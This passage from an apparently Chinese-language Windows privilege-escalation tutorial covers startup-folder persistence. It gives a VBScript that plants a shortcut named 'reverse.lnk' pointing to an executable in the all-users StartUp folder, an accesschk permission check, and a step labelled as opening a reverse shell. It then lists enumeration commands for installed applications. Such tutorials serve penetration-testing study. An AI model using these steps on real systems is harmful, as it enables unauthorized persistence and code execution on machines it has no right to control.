 这里我们要注意：必须使用快捷方式文件`.lnk`

提供一个VBScript脚本进行创建快捷方式文件

```php
Set oWS = WScript.CreateObject("WScript.Shell") sLinkFile = "C:\ProgramData\Microsoft\Windows\Start  Menu\Programs\StartUp\reverse.lnk" Set oLink = oWS.CreateShortcut(sLinkFile) oLink.TargetPath = "C:\Users\user\Desktop\a002.exe" oLink.Save
```

实操
--

### 1.使用accesschk.exe检查启动时的权限目录：

```php
.\accesschk.exe /accepteula -d  "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
```

![image-20210723101046654](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-857ca76fa07c4eedf7c4108db105a72271d1d0c4.png)

### 2.建立用户组可以编写此目录的访问

### 3.使用VBScript创建文件CreateShortcut.vbs

可以更改文件的路径

### 4.使用cscript运行脚本

```php
cscript CreateShortcut.vbs
```

### 5.进行反弹shell

已安装的应用程序
========

前言
--

与已安装应用程序相关的大多数权限升级都基于我们已经涵盖的错误的配置。

不过，一些权限升级是缓冲区溢出等结果，因此知道如何识别已安装的应用程序和已知漏洞仍然很重要

基本命令
----

### 手动列举所有运行程序：

```php
tasklist /v
```

### 我们还可以使用Seatbelt搜索非标准流程：
